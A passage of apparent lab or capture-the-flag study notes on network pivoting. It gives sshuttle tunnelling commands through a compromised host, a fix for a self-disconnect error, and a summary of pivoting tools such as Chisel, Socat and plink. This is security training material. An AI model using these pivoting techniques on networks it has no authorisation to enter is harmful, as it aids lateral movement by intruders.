`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`

eg. `sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24`

> Note: error may occur if it is part of subnet you are trying to access

```
client: Connected.
client_loop: send disconnect: Broken pipe
client: fatal: server died with error code 255
```

ie. connecting to `172.16.0.5` and forward `172.16.0.0/24`. Including compromised server inside the newly forwarded subnet

We can get around this with `-x` to create connection without disrupting itself

eg. `sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`

</details>

## 12. Pivoting - Conclusion

<details>
  <summary>---</summary>

- There are many ways to pivot through a network
- Proxychains and FoxyProxy are used to access a proxy
- SSH can be used to create both port forwards, and proxies
- plink.exe is an SSH client for Windows. Can create reverse SSH connections
- Socat can redirect connection and create port forwards
- Chisel can do the same thing as SSH port forwarding / tunnelling. Does not require SSH on the box
- sshuttle is nicer to create proxy when we have SSH access on target

</details>

## 13. Git - Enumeration

<details>
  <summary>---</summary>

</details>
